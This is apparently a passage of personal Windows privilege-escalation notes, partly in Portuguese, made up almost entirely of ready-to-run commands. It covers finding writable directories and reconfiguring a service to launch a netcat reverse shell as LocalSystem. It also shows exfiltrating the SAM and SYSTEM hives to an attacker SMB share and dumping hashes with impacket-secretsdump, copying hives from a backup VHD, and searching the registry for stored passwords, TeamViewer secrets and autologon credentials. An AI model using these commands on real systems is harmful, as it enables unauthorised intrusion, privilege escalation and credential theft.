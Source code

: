     Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
    
Full name
   
    accesschk.exe -uwqs Users c:\*.*
    accesschk.exe -uws "Everyone" "C:\Program Files"
    accesschk.exe -uwqs "Authenticated Users" c:\*.*
    

## Binary planting

    sc config [service_name] binpath= "C:\temp\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
    sc config [service_name] obj= ".\LocalSystem" password= ""
    sc qc [service_name] (to verify!)
    net start [service_name]
 
 Uma vez obtido system na máquina, é possível extrair a SAM da seguinte maneira:
 
 por meio dos registros:
 
 Na máquina vítima
 
    reg save HKLM\SAM \\10.10.14.11\smb\sam
    reg save HKLM\SYSTEM \\10.10.14.11\smb\system
 
Na máquina atacante:

    impacket-secretsdump -sam sam -system system local

Acessando diretamente a o hard drive da máquina:

    sudo guestmount --add '/tmp/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro -v /mnt/vhd

    cp vhd/Windows/System32/config/SAM /home/acosta/Downloads
    cp vhd/Windows/System32/config/SYSTEM /home/acosta/Downloads
    impacket-secretsdump -sam SAM -system SYSTEM local

ou até mesmo fazendo o port forwarding


## Credenciais no registro

    reg query HKLM /f *password* /t REG_SZ /s
    
    reg query HKLM /f teamviewer /t REG_SZ /s
    
    reg query HKCU /f password /t REG_SZ /s


### Autologon

    	
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

    reg query HKLM\SOFTWARE\Wow6432Node\TeamViewer\Version7 /v SecurityPasswordAES

    (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName   
    